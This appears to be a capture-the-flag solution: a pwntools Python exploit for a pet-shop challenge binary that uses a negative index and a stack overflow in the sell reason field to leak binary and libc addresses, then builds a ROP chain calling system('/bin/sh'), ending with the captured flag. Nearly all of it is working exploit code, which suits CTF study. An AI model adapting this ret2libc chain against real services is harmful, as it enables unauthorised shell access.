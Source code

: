 ```python

# debug()

def buy(pet_type, pet_type_idx, pet_name): 
    payload = ("buy " + pet_type + " " + str(pet_type_idx)).encode("utf8")
    sla(b"You    --> ", payload)
    sla(b"You    --> ", pet_name)

def sell(pet_list_idx, reason): 
    payload = ("sell " + str(pet_list_idx)).encode("utf8")
    sla(b"You    --> ", payload)
    sla(b"You    --> ", b"-")
    sla(b"You    --> ", reason)

def info(option):
    payload = ("info " + option).encode("utf8")
    sla(b"You    --> ", payload)

buy("cat", -2, cyclic(536) + p32(0x300)) 
info("mine")

ru(b"1. ")

binary_leak = u64(p.recv(6) + b"\x00\x00")
binary_base = binary_leak - 0x4008
log.info(f"binary leak = {hex(binary_leak)}")
log.info(f"binary base = {hex(binary_base)}")

poprdi   = binary_base + 0x1a13
ret      = poprdi + 1
putsgot  = binary_base + exe.got["puts"]
putsplt  = binary_base + exe.plt["puts"]
backaddr = binary_base + exe.symbols["main"]
payload1 = flat(b"A" * 0x208, poprdi, putsgot, putsplt, backaddr)

sell(0, payload1)

ru(b"reasonable!\n")

libc_leak = u64(p.recv(6) + b"\x00\x00")
libc_base = libc_leak - libc.symbols["puts"]
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")

# create fake pet to validate pet deletion
buy("cat", -2, cyclic(536) + p32(0x300)) 

binsh  = libc_base + next(libc.search(b"/bin/sh"))
system = libc_base + libc.symbols["system"]
payload2 = flat(b"B" * 0x208, ret, poprdi, binsh, system)

sell(1, payload2)

p.interactive() 
```
Flag thu được là `KCSC{0h_n0_0ur_p3t_h4s_bug?!????????????????????}`